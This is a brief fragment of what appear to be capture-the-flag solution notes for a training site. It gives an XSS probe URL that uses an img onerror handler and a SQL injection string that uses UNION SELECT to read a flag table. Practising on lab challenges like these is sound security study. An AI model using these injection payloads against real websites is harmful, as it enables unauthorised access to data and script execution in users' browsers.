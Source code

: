 ## xmy 
https://challenges.hackdemy.com/xmyscript/lookup?hello=<img src=a onerror=console.log("VULN_TO_XSS!")>

## finder

name='&guests=na&neatness=na&sleep='UNION+SELECT+1,flag,null,null,null,null+FROM+flag&awake='UNION+SELECT+1,flag,null,null,null,null+FROM+flag
